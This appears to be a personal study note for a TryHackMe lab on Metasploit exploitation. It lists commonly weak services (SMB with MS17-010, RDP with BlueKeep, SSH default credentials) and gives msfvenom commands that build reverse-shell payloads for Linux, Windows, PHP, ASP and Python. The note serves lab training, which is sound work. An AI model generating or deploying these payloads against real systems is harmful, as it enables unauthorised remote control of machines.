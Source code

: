 <!-- TOC -->

- [Metasploit: Exploitation](#metasploit-exploitation)
    - [Payloads](#payloads)

<!-- /TOC -->

# Metasploit: Exploitation

[Metasploit: Exploitation Room](https://tryhackme.com/room/metasploitexploitation)

Using Metasploit for scanning, vulnerability assessment and exploitation.

You may want to look for low-hanging fruits such as:
- `HTTP`: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
- `FTP`: Could allow anonymous login and provide access to interesting files. 
- `SMB`: Could be vulnerable to SMB exploits like MS17-010
- `SSH`: Could have default or easy to guess credentials
- `RDP`: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.

## Payloads

Linux Executable and Linkable Format (elf)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f elf > rev_shell.elf
```

Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f exe > rev_shell.exe
```

PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.php
```

ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f asp > rev_shell.asp
```

Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.py
```
